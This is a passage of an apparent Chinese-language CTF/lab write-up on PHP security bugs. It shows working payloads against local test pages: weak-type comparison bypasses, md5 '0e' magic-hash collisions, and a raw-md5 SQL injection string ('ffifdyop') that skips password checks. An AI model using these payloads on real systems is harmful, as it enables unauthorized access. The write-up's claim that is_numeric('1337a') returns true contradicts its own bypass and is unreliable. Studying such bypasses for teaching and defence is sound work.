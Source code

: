 `is_numeric($temp)?die("no numeric"):NULL;`
不能是数字

```
if($temp>1336){
    echo $flag;
} 
```
又要大于`1336`

利用`PHP`弱类型的一个特性，当一个整形和一个其他类型行比较的时候，会先把其他类型`intval`再比。如果输入一个`1337a`这样的字符串，在`is_numeric`中返回`true`，然后在比较时被转换成数字`1337`，这样就绕过判断输出`flag`。

`http://127.0.0.1/php_bug/22.php?password=1337a`

## 23 md5函数验证绕过

`if(md5($temp)==0)`
要使`md5`函数加密值为`0`

- 方法一：
使`password`不赋值，为`NULL`，`NULL == 0`为`true`
`http://127.0.0.1/php_bug/23.php?password=`
`http://127.0.0.1/php_bug/23.php`

- 方法二：
经过MD5运算后，为`0e******`的形式，其结果为`0*10`的`n`次方，结果还是零
`http://127.0.0.1/php_bug/23.php?password=240610708`
`http://127.0.0.1/php_bug/23.php?password=QNKCDZO`

## 24 md5函数true绕过注入

`$sql = "SELECT * FROM users WHERE password = '".md5($password,true)."'";`
`md5($password,true)`
将`md5`后的`hex`转换成字符串

如果包含`'or'xxx`这样的字符串，那整个`sql`变成

`SELECT * FROM admin WHERE pass = ''or'xxx'`就绕过了

字符串：`ffifdyop`

`md5`后，`276f722736c95d99e921722cf9ed621c`
`hex`转换成字符串：` 'or'6<trash>`
![](./img/24_1.png)
